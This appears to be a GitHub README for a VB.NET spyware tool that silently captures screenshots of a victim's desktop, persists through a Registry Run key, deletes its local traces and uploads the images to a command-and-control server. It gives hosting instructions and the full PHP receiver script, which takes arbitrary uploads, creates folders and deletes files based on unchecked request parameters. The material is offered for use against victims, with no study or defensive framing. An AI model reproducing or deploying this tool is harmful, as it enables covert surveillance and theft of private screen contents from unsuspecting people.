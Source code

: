 <p align="center">
  <img src="https://i.ibb.co/BTyz5jW/Screenshot-10.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Tool | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```

